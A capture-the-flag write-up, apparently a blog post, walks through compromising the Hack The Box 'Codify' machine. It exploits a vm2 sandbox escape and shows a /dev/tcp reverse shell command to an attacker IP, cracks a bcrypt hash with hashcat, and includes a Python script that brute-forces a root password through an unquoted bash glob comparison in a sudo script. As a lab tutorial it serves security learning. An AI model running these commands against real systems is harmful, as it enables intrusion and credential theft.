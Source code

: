 ```yaml
---
layout: post
title:  "Codify Machine (Easy)"
date:   2024-04-05 17:04:54 +0100
categories: ["OS Command Injection", "Brute Force"]
---
```


## Information Gathering

First run a nmap scan to show the services available on the target.

![Nmap scan](/assets/machines/codify.htb/images/1_nmap_scan.png)

*Note: En el output aunque aparezca el puerto 3000 abierto, era otro hacker entusiasta que abriría ese puerto.*

The web application use the vm2 software to allow users to execute Nodejs code in the server.

![HTTP Web service](/assets/machines/codify.htb/images/2_http_web_service.png)

The version of vm2 can be found at link of the About us page.

![HTTP Web service](/assets/machines/codify.htb/images/3_http_vm2_version.png)

## Vulnerability Assesment

A quick search on Google reveals that there is a vulnerability for version vm2 3.9.16: [CVE-2023-30547](https://nvd.nist.gov/vuln/detail/CVE-2023-30547)

In the following link, we have a [Proof of Concept (PoC)](https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244).

## Execute reverse shell

We will exploit the vulnerability by injecting a command that will execute a reverse shell. The command to inject is as follows:

```bash
/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.14.35/9000 0>&1"
```

![HTTP Web service](/assets/machines/codify.htb/images/4_os_command_injection.png)

Before clicking on `Run`, make sure you have netcat listening.

![HTTP Web service](/assets/machines/codify.htb/images/5_nc_revshell.png)

¡We are in! The next step is to gather information again.

## Brute Forcing Password

We find two users, `svc` and `joshua`. Since we are inside a CTF, it looks like we first need to compromise the `joshua` user by performing privilege escalation, and then go for the root user.

![HTTP Web service](/assets/machines/codify.htb/images/7_users.png)

Searching through the files on the website, we came across the file `tickets.db`, which contains the hashed password of the user joshua.

![HTTP Web service](/assets/machines/codify.htb/images/6_tickets_db.png)

If we look at the hash, it is Bcrypt. Fortunately, we have our trusted tool Hashcat.

```bash
hashcat -m 3200 hash.txt /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt
```

The argument `-m 3200` indicates that we will use the Bcrypt hash.

![HTTP Web service](/assets/machines/codify.htb/images/8_hashcat.png)

The brute force attack was successful, and we obtained the credentials `joshua:spongebob1`. Now, let's cross our fingers that he has reused the password for his account on the server.

![HTTP Web service](/assets/machines/codify.htb/images/9_su_joshua.png)

Thanks God! We got Joshua's flag, and now let's go for root.

## Privilege Escalation

The command `sudo -l` shows us the commands/scripts that we can execute as root.

![HTTP Web service](/assets/machines/codify.htb/images/10_sudo_l.png)

We come across the script `/opt/scripts/mysql-backup.sh`, its contents are as follows:

```bash
#!/bin/bash
DB_USER="root"
DB_PASS=$(/usr/bin/cat /root/.creds)
BACKUP_DIR="/var/backups/mysql"

read -s -p "Enter MySQL password for $DB_USER: " USER_PASS
/usr/bin/echo

if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi

/usr/bin/mkdir -p "$BACKUP_DIR"

databases=$(/usr/bin/mysql -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" -e "SHOW DATABASES;" | /usr/bin/grep -Ev "(Database|information_schema|performance_schema)")

for db in $databases; do
    /usr/bin/echo "Backing up database: $db"
    /usr/bin/mysqldump --force -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" "$db" | /usr/bin/gzip > "$BACKUP_DIR/$db.sql.gz"
done

/usr/bin/echo "All databases backed up successfully!"
/usr/bin/echo "Changing the permissions"
/usr/bin/chown root:sys-adm "$BACKUP_DIR"
/usr/bin/chmod 774 -R "$BACKUP_DIR"
/usr/bin/echo 'Done!'
```

This script basically performs a backup and stores it in `/var/backups/mysql`. However, to execute the script, we are asked for the root password in the MySQL database. If we enter the wrong password, the rest of the script will not execute.

Fortunately, the following conditional has a vulnerability that we can exploit:

```bash
if [[ $DB_PASS == $USER_PASS ]]
```

Our input has not been sanitized, so we can use the wildcard `*` to brute force the root password. By introducing the next inputs `a*`, `b*`, `c*`, `d*`, `e*`, `f*`, ..., `kl*`.

After a few minutes, I created this Python script to brute force the root password using the previous methodology. Please note that this script does not use symbols like `$,.`, as they could provoke script errors.

```python
import os
import time


# This python script brute force the password by using wildcard * in the password
chars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"
pass_arr = 'kljh12k3jhaskjh12kjh'.split()
i = 0
while True:
    pass_str = ''.join(pass_arr)
    result = os.system(f"echo {pass_str}* | sudo /opt/scripts/mysql-backup.sh 1>/dev/null 2>/dev/null")
    time.sleep(0.5)

    # If the appended character was not found, replace it with the next character
    if result != 0:
        print(f"Character not found: {pass_str}*")
        i += 1
        # If we have tried all characters, password was found
        if i >= len(chars):
            pass_arr.pop()
            print(f"Password found: {''.join(pass_arr)}")
            break
        # Otherwise, replace the last character with the next one
        pass_arr[len(pass_arr) - 1] = chars[i]
        continue

    # If a new character was found, add it to the password
    print(f"Found character: {pass_str}*")
    i = 0
    pass_arr.append(chars[i])
    continue
```

The above script will perform a brute force attack to obtain the root password.

![HTTP Web service](/assets/machines/codify.htb/images/11_py_bruteforce_start.png)

Finally, after a few minutes, we have obtained the root password.

![HTTP Web service](/assets/machines/codify.htb/images/12_py_bruteforce_end.png)

Use it wisely to obtain the root flag.

¡Happy Hacking!

